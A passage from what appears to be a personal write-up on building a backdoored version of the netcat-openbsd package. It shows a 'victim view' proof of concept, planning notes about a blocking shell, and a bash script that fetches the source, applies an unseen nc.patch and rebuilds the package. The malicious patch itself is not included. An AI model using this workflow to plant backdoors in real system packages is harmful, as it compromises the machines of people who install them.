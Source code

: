 ```bash
atomicio.o
debian
nc
nc.1
netcat.c
netcat.o
socks.c
socks.o
```
victim view:
```bash
~/netcat/netcat-openbsd-1.206$ ./nc 127.0.0.1 4444

```
Nice, we got a POC.
## Next steps
after i knew what is the end goal and how to achieve it, i need to figure out what can go wrong and how i can automate it.

list of possible issues:

 - Shell is blocking, maybe there's a away to open a thread for it.
 - Will the opened thread work in concurrency with the message loop?
 - make a script that automates download of source, patch and build it
 - how do i build a package?
 - how do i patch a package?
 - polish code and make it clean
 
 most of the time i was researching on dpkg and how to work with it.
 a .patch file can be created using diff or by running dpkg-source --commit and supplying it with a name. quilt can be used to import the patch and push it to the source, this method is most consistent in cases where the machine gets the up to date source, it may break if theres a version mismatch with the source files.

my final script:
```bash
#!/bin/bash
sudo apt-get install --yes dpkg-dev #dpkg is required for any source manipulation and building
sudo cp /etc/apt/sources.list /etc/apt/sources.list~
sudo sed -Ei 's/^# deb-src /deb-src /' /etc/apt/sources.list
sudo apt-get update #done to update the source list, cannot get source without it
sudo apt-get install --yes quilt #used to patch the source
mkdir netcat
cd netcat
apt source netcat-openbsd
cd netcat-openbsd-*/
sudo apt-get install --yes $(dpkg-checkbuilddeps 2>&1 | sed -e 's/dpkg-checkbuilddeps:\serror:\sUnmet build dependencies: //g' -e  's/[\(][^)]*[\)] //g') #this line automatically queries the dependancies of the project, extracts them using sed and pipes them to apt to install them
quilt import ~/nc.patch
quilt push #patching
res=$?
if [ $res -eq 0 ]; then #if patching fails do not continue
	sudo dpkg-buildpackage
else
	echo "patch failed to apply, verify source is up to date"
fi
```
This script has been tested on a fresh Ubuntu installation and it works.
